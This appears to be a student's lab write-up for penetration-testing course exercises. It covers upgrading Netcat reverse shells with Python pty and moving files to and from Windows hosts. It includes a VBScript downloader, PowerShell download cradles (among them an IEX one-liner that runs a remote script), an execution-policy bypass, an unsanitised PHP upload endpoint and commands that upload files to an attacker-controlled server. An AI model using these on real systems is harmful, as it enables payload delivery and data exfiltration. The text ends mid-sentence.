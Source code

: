 # 16.1.4 Considerations and Preparations
**1.  Start the Pure-FTPd FTP server on your Kali system, connect to it using the FTP client on the Debian lab VM, and observe how the interactive prompt works.**

The following script will create the necessary users and gorups as well as start the FTP service
```bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```


![[systemctl_ftpd.png]]

We can now switch to our Debian client and attempt to connect.
![[frp_connect.png]]


**2.  Attempt to log in to the FTP server from a Netcat reverse shell and see what happens.**

After setting up our listener on the Debian client we can use netcat to connect to our listener. We then use the command "ftp" to attempt to interact with our FTP server running on our Kali machine. This will result in a loss of control of our shell.
![[non-interactive_ftp.png]]

**3.  Research alternative methods to upgrade a non-interactive shell.**

To upgrade our shell we can use the python module "pty" , a standard module that is often used to upgrade to interactive shells. We can see that after upgrading our shell via "pty" we can access the ftp server running on our Kali machine.
![[interactive_ftp.png]]


# 16.2.6 Transferring Files with Windows Hosts

**1.  Use VBScript to transfer files in a non-interactive shell from Kali to Windows.**

We must first write a vbs script which will act like a simple http downloader.
```vbs
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1)
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1
Const HTTPREQUEST_PROXYSETTING_PROXY = 2
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts
 Err.Clear
 Set http = Nothing
 Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
 If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")
 If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")
 If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")
 http.Open "GET", strURL, False
 http.Send
 varByteArray = http.ResponseBody
 Set http = Nothing
 Set fs = CreateObject("Scripting.FileSystemObject")
 Set ts = fs.CreateTextFile(StrFile, True)
 strData = ""
 strBuffer = ""
 For lngCounter = 0 to UBound(varByteArray)
 ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))
 Next
 ts.Close
```

We can then run the script with cscript and download files from our Kali machine's server.
![[Pasted image 20220720022641.png]]

**2.  Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and vice versa.**

For more recent versions of Windows a much better approach is to utilize PowerShell. We start by screating the script with the following code.
```
$webclient = New-Object System.Net.WebClient 
$url = "http://192.168.119.130:9002/evil.txt" 
$file = "new-exploit.txt" 
$webclient.DownloadFile($url,$file) 
```

This creates the wget.ps1 script. In order to run the script we must first enable the execution of PowerShell scripts. We can do this with the following command, including a few extra flags to set a few other options.
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`
And we can see our file has downloaded.
![[Pasted image 20220720024112.png]]

This script can be run in a number of ways. For example, a one liner version:
`powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.130/evil.txt', 'new-evil.txt')`

Or as a one liner, executing the requested payload remotely rather than saving and execute the file locally.
`powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')`

**3.  For PowerShell version 3 and above, which is present by default on Windows 8.1 and Windows 10, the cmdlet [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-6) was added. Try to make use of it in order to perform both upload and download requests to your Kali machine.**

To use Invoke-WebRequest to download a file from our Kali server we can use the following command (note the shorthand IWR which is used in place of the full command Invoke-WebRequest). This will download the file "evil.txt" and save it to our local directory as "evil_IWR.txt"

`powershell IWR -uri http://192.168.119.130:9002/evil.txt -OutFile evil_IWR.txt`

In order to upload a file via IWR we need to first adjust our apache server to accept uploads via a php endpoint labeled "upload.php". 
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

We can then place this file into our /var/www/WEBSITE_NAME directory, create a new directory in /var/www labeled "uploads", and change the permissions of the newly created uploads folder so that www-data is the owner.
`chown www-data /var/www/uploads`

We can now restart our apache server and use the IWR command to upload files. Once restarted, the following command will upload the file "evil_download.txt" to our /var/www/uploads folder:
`powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'evil_download.txt')`
And we can see the file on our Kali machine.
![[Pasted image 20220721153421.png]]
**4.  Use TFTP to transfer files from a non-interactive shell from Kali to Windows.**

**Note:** If you encounter problems, first attempt the transfer process within an interactive shell and watch for issues that may cause problems in a non-interactive shell.

We can see that when attempting to transfer a file via tftp on Windows we fail to get a connection and receive an error.

![[Pasted image 20220721215649.png]]

This is due to the firewall rules present on the Windows system. We can adjust the setting 

![[Pasted image 20220721215854.png]]

![[Pasted image 20220721215958.png]]